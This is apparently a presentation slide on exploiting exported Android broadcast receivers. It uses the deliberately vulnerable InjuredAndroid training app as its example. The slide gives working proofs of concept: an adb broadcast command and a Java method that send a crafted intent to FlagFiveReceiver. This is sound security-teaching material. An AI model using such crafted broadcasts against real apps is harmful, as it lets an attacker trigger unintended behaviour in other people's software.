

# Exploitation of Android Broadcast Receivers
Vulnerable when receiver is exported and accepts user provided broadcasts.
String totally = paramIntent.getStringExtra("totally");
String secure = paramIntent.getStringExtra("secure")
ADB PoC
adb shell am broadcast -a action com.b3nac.injuredandroid.intent.action.CUSTOM_INTENT --es totally "test" --es secure "test"

Java PoC

private void send() {
    String totally = "test";
    String secure = "test";
    // Create intent, set to matching action, send exploit broadcast
    Intent intent = new Intent(getApplicationContext(), FlagFiveReceiver.class);
    intent.setAction("com.b3nac.injuredandroid.intent.action.CUSTOM_INTENT");
    intent.putExtra("totally", totally);
    intent.putExtra("secure", secure);
    sendBroadcast(intent);
}